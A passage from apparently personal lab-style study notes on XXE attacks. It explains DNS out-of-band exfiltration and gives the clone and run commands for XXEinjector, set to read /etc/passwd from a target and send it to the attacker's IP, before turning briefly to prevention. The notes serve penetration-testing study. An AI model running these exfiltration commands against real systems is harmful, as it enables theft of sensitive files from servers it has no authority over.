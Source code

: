 in addition to storing our base64 encoded data as a URL parameter, we can also use `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (ENCODEDTEXT.our.site.com) then use a tool like tcpdump to capture incoming traffic and decode the sub-domain string to get the data 

### Automated OOB exfiltration 

we can also automate the method we just tried with tools like `XXEinjector`   
can clone with: 

```shell
git clone https://github.com/enjoiz/XXEinjector.git
```

then we need to copy the HTTP request and write it to a file with `XXEINJECT` after it as a postion locator: 

![](Images/Pasted%20image%2020240227192810.png)

then we can run the tool with the `--host` or `--httpport` flags for our IP and port, `--file` for the file with the request, and the `--path` for the file we want to read   
we can also use `--oob=http` and `--phpfilter` to repeat the OOB attack we did above with: 

```shell
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

all exfiltrated files get store din the `Logs` folder under the tool which we can view to see the output 

## XXE Prevention 

most XXE vulnerabilities occur when an unsafe XML input references an external entity, which is then used to read sensitive files and perform other actions 
